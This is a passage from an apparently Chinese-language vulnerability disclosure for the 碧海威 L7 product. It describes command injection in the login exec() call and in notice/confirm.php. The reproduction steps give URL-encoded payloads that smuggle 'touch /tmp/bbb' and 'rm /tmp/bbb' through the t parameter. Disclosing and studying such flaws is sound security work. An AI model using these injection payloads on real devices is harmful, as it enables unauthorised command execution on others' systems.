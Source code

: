 可以看到，在 `action == 'login'` 处的 `exec()` 函数中，拼接了命令，且没有经过 `escapeshellcmd()` 函数处理，导致了代码注入、命令执行漏洞。

## 漏洞 5 - 代码注入、命令执行

### 漏洞描述

通知 - 确认环节中，存在代码注入、命令执行漏洞，可通过拼接执行命令。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

请求如下：

```http
GET   {{BaseUrl}}/notice/confirm.php?t=aaa
```

上述请求中：

- `t` 为是否确认通知后续不再弹出，存在代码注入漏洞

复现步骤：

1. 在浏览器地址栏填入如下内容，访问

   ```http
   https://{{BaseUrl}}/notice/confirm.php?t=%26touch%20%2Ftmp%2Fbbb
   ```

   ![](assets/2023-11-07-13-34-17.png)

2. 在控制台中查看命令执行结果
   ![](assets/2023-11-07-13-35-17.png)

3. 将地址改为如下内容，尝试删除刚刚创建的文件

   ```http
   https://{{BaseUrl}}/notice/confirm.php?t=%26rm%20%2Ftmp%2Fbbb
   ```

   ![](assets/2023-11-07-13-36-26.png)
